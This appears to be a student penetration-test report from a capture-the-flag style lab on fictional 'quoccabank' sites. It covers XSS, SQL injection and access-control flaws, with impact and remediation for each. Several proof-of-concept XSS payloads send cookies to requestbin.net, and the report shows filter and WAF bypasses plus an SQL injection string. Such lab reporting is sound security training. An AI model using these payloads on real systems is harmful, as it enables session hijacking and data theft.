 ### Reflected XSS - Reflected XSS in Comment Filter
**Asset Domain:** science-today.quoccabank.com
**Severity Classification:** High
**Vulnerability Details**
A reflected XSS vulnerability exists in the comment filtering system for the `science-today` blog.
**Proof of Concept / Steps to Reproduce**
We can escape the header context of our reflected input with `</h3>` - a clear lack of sanitisation of user input. 
![](Pasted%20image%2020210806161850.png)
From there, we can evade the single pass filter by nesting blacklisted tags (such as `img` and `onerror`). We can now invoke arbitrary javascript , allowing us to leak clientside secrets. 
As a POC, we leak the `query-flag` cookie by appending it to a redirect to an attacker controlled server then reporting the page (along with the comment filter parameter):
```
<imimgg src="x" oneonerrorrror="location.href='http://requestbin.net/r/du0jqnpb/?c='+btoa(document.cookie)"></imimgg>
```
![](Pasted%20image%2020210806161838.png)

**Impact**
Coupled with the automated administration system that renders javascript on reported pages, this reflected XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks.  

**Remediation**
Implement a whitelist to sanitise user input at both the client and server side -  Ideally, through a well supported framework such as `jsoup`.
	
### Stored XSS - Stored XSS in Comment Section
**Asset Domain:** science-today.quoccabank.com
**Severity Classification:** High
**Vulnerability Details**
A stored XSS vulnerability exists in the comment section of the `science-today` blog.
**Proof of Concept / Steps to Reproduce**
We can easily see that no sanitisation is performed on submitted comments - allowing us to invoke arbitrary JS & HTML:
```
</p><b>awf</b>
```
![](Pasted%20image%2020210806163027.png)

Exploitation is similar to the exploitation of the above reflected XSS vulnerability. Instead of a filter to contend with, our payload must fit a somewhat tight length limit. 
Again, as a POC, we leak sensitive a clientside secret - the `flag` cookie - by appending it to a JS web request to an attacker controlled server.
```
<img src="x" onerror="new Image().src='http://requestbin.net/r/du0jqnpb/?c='+document.cookie">
```
We can then report the page to the automated administration system and leak sensitive information.

**Impact**
Coupled with the automated administration system that renders javascript on reported pages, this stored XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks.

Additionally, the stored nature of the payload makes mass exploitation trivial - dramatically increasing the impact of a malicious payload.  

**Remediation**
Implement a whitelist to sanitise user input at both the client and server side -  Ideally, through a well supported framework such as `jsoup`.

### Reflected XSS - Reflected XSS in Comment Filter behind WAF
**Asset Domain:** science-tomorrow.quoccabank.com
**Severity Classification:** High
**Vulnerability Details**
A reflected XSS vulnerability exists in the comment filtering system for the `science-tomorrow` blog - identical to the reflected XSS vulnerability in `science-today.quoccabank.com`. 
**Proof of Concept / Steps to Reproduce**
See the POC for the reflected XSS vulnerability in `science-today`. 

Some adjustments must be made to contend with a new obstacle - the flawed "HackShield" WAF implemented at the `ctfproxy2` level.  

The WAF uses simple term matching to block what it sees as malicious requests. These rules can be easily evaded by taking advantage of lesser known "malicious" Javascript constructs (e.g. `eval(window.atob())` and `location.href`). 

Otherwise, exploitation follows exactly as in `science-today` - allowing us to leak the `query-flag` cookie by reporting the filtered page. 

```
<img src="x" onerror="location.href='http://requestbin.net/r/gngcllan?c='+btoa(document.cookie)"></img>
```

![](Pasted%20image%2020210806163815.png)

**Impact**
Coupled with the automated administration system that renders javascript on reported pages, this reflected XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks.  

**Remediation**
Implement a whitelist to sanitise user input at both the client and server side -  Ideally, through a well supported framework such as `jsoup`.

Moreover, we recommend the adoption of a commercial WAF package in place of the current home-brew solution.


### Stored XSS - Stored XSS in Comment Section behind WAF
**Asset Domain:** science-today.quoccabank.com
**Severity Classification:** High
**Vulnerability Details**
A stored XSS vulnerability exists in the comment section of the `science-tomorrow` blog - identical to the stored XSS vulnerability in `science-today.quoccabank.com`. 
**Proof of Concept / Steps to Reproduce**
As in the above reflected XSS exploit - reproduction steps are identical to the non proxied variant albeit with the addition of a WAF bypass. The same payload produces results, allowing us to leak the `flag` cookie once the page is reported:

```
<img src="x" onerror="location.href='http://requestbin.net/r/gngcllan?c='+btoa(document.cookie)"></img>
```



**Impact**
Coupled with the automated administration system that renders javascript on reported pages, this stored XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks.

Additionally, the stored nature of the payload makes mass exploitation trivial - dramatically increasing the impact of a malicious payload.  

**Remediation**
Implement a whitelist to sanitise user input at both the client and server side -  Ideally, through a well supported framework such as `jsoup`.

Moreover, we recommend the adoption of a commercial WAF package in place of the current home-brew solution.
	
### SQL Injection - SQLi in Payment Portal behind WAF
**Asset Domain:** payportal-v2.quoccabank.com
**Severity Classification:** Critical
**Vulnerability Details**
There exists an SQL injection vulnerability in the `period` parameter sent to the payment portal backend, identical to the vulnerability in `pay-portal.quoccabank.com`. 
**Proof of Concept / Steps to Reproduce**
The first (and last) line of defence against SQLi here is the WAF provided by `ctfproxy2`. By probing the parameter with inputs, we discover that the double dash comment characters `--` and ` or ` (or surrounded with whitespace) trigger the HackShield WAF. 

To bypass this blacklist matching, we simply replace our space characters with an inline comment - e.g. `1"/**/or/**/`. 

As a POC, we leak all entries in the `payportal` table with a modified `1" or "1" = "1";` payload - revealing sensitive information. 

```
1"/**/or/**/"1"="1";
```

```
https://ctfproxy2.quoccabank.com/api/payportal-v2/?period=1%22%2F**%2For%2F**%2F%221%22%3D%221%22%3B
```

![](Pasted%20image%2020210806172706.png)

**Impact**
The SQLi vulnerability enables the execution of a subset of SQL. An attacker may exfiltrate records in the local database, pivot to connected DB systems or escalate to RCE depending on the backend environment and DB configuration (unlikely here due to a lack of write privileges). 

**Remediation**
Make use of the prepared statements binding provided in the appropriate backend framework. Refer to `https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html` for further guidance.

### Incorrect Access Control - No API Key Authentication in `flagprinter` 
**Asset Domain:** flagprinter.quoccabank.com
**Severity Classification:** Medium
**Vulnerability Details**
The internal web application `flagprinter` does not check whether the supplied `ctfproxy2-key` is authorised to access the application. This oversight allows an attacker to view sensitive information.

This vulnerability seems to have been picked up by a previous audit, as the original API endpoint was disabled by an administrator. However, by creating another endpoint with the same origin, we can "reactivate" the service and retrieve sensitive information. 

**Proof of Concept / Steps to Reproduce**
The original endpoint for `flagprinter` has been disabled. However, by simply creating another endpoint with the same origin, we are able to view the web app.
![](Pasted%20image%2020210806191434.png)
![](Pasted%20image%2020210806191611.png)
![](Pasted%20image%2020210806191642.png)

Alternatively, we could forge requests to the `flagprinter` with an arbitrary username in the `ctfproxy2-user` header (and other appropriate headers to masquerade as the `ctfproxy2` server).

**Impact**
Confidential secrets are leaked from an internal development server. 

**Remediation**
Enforce stricter auditing of services before they go live. 
In this specific case - check the authorization of the `ctfproxy2-key` before responding to proxied requests.
